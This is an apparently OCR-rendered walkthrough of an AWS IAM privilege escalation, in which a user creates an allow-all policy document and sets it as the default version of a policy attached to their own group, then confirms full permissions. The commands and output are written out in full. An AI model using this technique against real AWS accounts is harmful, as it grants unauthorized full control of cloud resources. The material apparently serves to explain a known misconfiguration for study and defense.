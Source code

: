 To escalate privileges, the user creates a new policy document that permits all AWS actions:

```json
$ cat admin_policy.json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "AllowEverything",
            "Effect": "Allow",
            "Action": "*",
            "Resource": "*"
        }
    ]
}
```

The user then issues the aws command to create a new version of the policy that is applied to their group.

```bash
$ aws iam create-policy-version --policy-arn arn:aws:iam::[ACCOUNT-ID]:policy/privesc1 --policy-document file://admin_policy.json --set-as-default --profile privesc}
```

```json
{
    "PolicyVersion": {
        "CreateDate": "2019-03-06T20:56:41Z",
        "VersionId": "v2",
        "IsDefaultVersion": true
    }
}
```

The result is that the user now has full AWS permissions:

```bash
$ aws iam get-policy-version --policy-arn arn:aws:iam:: [ACCOUNT-ID]:policy/privesc1 --version-id v2}
```


```json
{
    "PolicyVersion": {
        "CreateDate": "2019-03-06T20:56:41Z",
        "VersionId": "v2",
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Action": "*",
                    "Resource": "*",
                    "Effect": "Allow",
                    "Sid": "AllowEverything"
                }
            ]
        },
        "IsDefaultVersion": true
    }
}
```

